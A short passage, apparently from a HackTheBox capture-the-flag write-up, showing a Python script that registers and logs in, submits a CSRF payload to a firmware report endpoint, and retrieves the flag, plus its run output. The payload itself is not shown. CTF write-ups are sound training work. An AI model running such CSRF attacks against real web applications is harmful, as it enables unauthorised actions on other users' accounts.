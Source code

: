 ```python
    json={
        "username": "tgihf",
        "password": "blah"
    }
)
assert response.status_code == 200

with requests.session() as session:

    # Login
    response = session.post(
        f"http://{target}/api/login",
        json={
            "username": "tgihf",
            "password": "blah"
        }
    )
    assert response.status_code == 200

    # Submit CSRF payload
    response = session.post(
        f"http://{target}/api/firmware/report",
        json={
            "module_id": 42,
            "issue": csrf_payload
        }
    )
    assert response.status_code == 200

    # Retrieve flag
    response = session.get(f"http://{target}/static/flag")
    assert response.status_code == 200
    print(response.text)
```

```bash
$ python3 exploit.py
HTB{...}
```
